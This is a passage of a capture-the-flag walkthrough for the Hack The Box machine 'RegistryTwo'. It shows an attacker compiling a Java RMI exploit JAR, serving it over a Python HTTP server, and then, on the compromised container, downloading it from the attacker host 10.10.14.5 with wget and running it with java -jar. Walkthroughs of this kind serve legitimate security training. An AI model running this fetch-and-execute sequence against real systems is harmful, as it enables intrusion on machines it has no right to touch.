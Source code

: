 
Next we will edit `MANIFEST.MF`
```
Manifest-Version: 1.0
Main-Class: com.htb.hosting.rmi.Exploit
```

We will also have to edit the package decloration in `com/htb/hosting/rmi/AbstractFile.java` and `com/htb/hosting/rmi/FileService.java` to the following:
```
package com.htb.hosting.rmi;
```

**You also might have to manually copy paste the AbstractFile.java** I ran into this error while compiling if I just used the export from `jd-gui`. To fix this I just did a manual copy paste, its something with the white spaces.
```
root@22d3a255ab0f:/home/kali# javac Exploit.java                                                                                                             
./com/htb/hosting/rmi/AbstractFile.java:3: error: cannot find symbol
/*    */ public class AbstractFile implements Serializable {
                                              ^                 
  symbol: class Serializable      
./com/htb/hosting/rmi/AbstractFile.java:8: error: cannot find symbol
/*    */   public AbstractFile(String fileRef, String vhostId, String displayName, File file, String absolutePath, String relativePath, boolean isFile, boole
an isDirectory, long displaySize, String displayPermission, long displayModified, com.htb.hosting.rmi.AbstractFile parentFile) {
                                                                                   ^
  symbol:   class File
  location: class AbstractFile
./com/htb/hosting/rmi/AbstractFile.java:11: error: cannot find symbol
/*    */   private final String displayName; private final File file; private final String absolutePath; private final String relativePath; private final boo
lean isFile; private final boolean isDirectory; private final long displaySize; private final String displayPermission; private final long displayModified;
            
```

With all of that it is time to compile. The java version running on the container is version 8, so I'll spin up a quick docker container on my kali vm running java 8 to avoid issues.
```
┌──(kali㉿kali)-[~/htb/registryTwo/warDIR/compile]
└─$ sudo docker run -it --rm -v "$PWD:/home/kali" openjdk:8 bash
root@7225b56a7100:/# cd /home/kali
root@7225b56a7100:/home/kali# javac Exploit.java
root@7225b56a7100:/home/kali# mv Exploit.class com/htb/hosting/rmi
root@7225b56a7100:/home/kali# jar cfm Exploit.jar ./MANIFEST.MF -C . .
root@7225b56a7100:/home/kali# ls
Exploit.jar  Exploit.java  MANIFEST.MF  com
```

Now we will copy that file over to RegistryTwo, if everything works you should see no output.
```
┌──(kali㉿kali)-[~/htb/registryTwo/warDIR/compile]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ..

ON DOCKER
bash-4.4$ wget 10.10.14.5/Exploit.jar
wget 10.10.14.5/Exploit.jar
Connecting to 10.10.14.5 (10.10.14.5:80)
Exploit.jar          100% |*******************************| 43142   0:00:00 ETA

bash-4.4$ java -jar Exploit.jar
java -jar Exploit.jar
```
